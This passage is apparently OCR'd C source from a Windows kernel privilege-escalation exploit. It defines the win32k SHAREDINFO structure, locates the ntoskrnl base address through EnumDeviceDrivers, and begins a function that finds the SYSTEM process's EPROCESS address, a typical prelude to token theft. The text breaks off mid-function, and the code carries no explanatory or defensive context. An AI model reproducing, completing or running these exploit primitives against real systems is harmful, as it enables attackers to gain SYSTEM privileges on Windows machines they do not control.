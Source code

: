 ```c
typedef struct _SHAREDINFO {
	PSERVERINFO psi;
	PUSER_HANDLE_ENTRY aheList;
	ULONG HeEntrySize;
	ULONG_PTR pDispInfo;
	ULONG_PTR ulSharedDelts;
	ULONG_PTR awmControl;
	ULONG_PTR DefWindowMsgs;
	ULONG_PTR DefWindowSpecMsgs;
} SHAREDINFO, *PSHAREDINFO;

DWORD64 getKernelBase() {
	PVOID driversAddress[1024];
	DWORD cbNeeded;
	int cDrivers, i;
	int ntoskrnlKernelBase;

	// find ntoskrnl.exe kernel base
	if (EnumDeviceDrivers(driversAddress, sizeof(driversAddress), &cbNeeded) && cbNeeded < sizeof(driversAddress))
	{

		cDrivers = cbNeeded / sizeof(driversAddress[0]);

		for (i = 0; i < cDrivers; i++)
		{
			if (GetDeviceDriverBaseName(driversAddress[i], driverName, 1024))
			{
				char *lowerName = _strlwr(driverName);

				if (!strncmp(driverName, "nt", 2)) {

					ntoskrnlKernelBase = i;
					break;
				}
				else {
					if (i == (cDrivers - 1)) {
						printf("can't find driver name\n");
						exit(0);
					}
					continue;
				}
			}
			else {
				printf("get device driver name failed\n");
			}
		}
	}
	else
	{
		printf("Enumerate Device Drivers failed\n");
		return 0;
	}

	printf("driver name is: %s\n", driverName);
	return (DWORD64)driversAddress[ntoskrnlKernelBase];
}

DWORD64 getSystemEProcessAddr() {
	DWORD64 ntoskrnlKernelBase = getKernelBase();
	DWORD64 ntoskrnlUserBase = (DWORD64)LoadLibrary(driverName);
	if (ntoskrnlUserBase == NULL) {
		printf("load library failed!\n");
```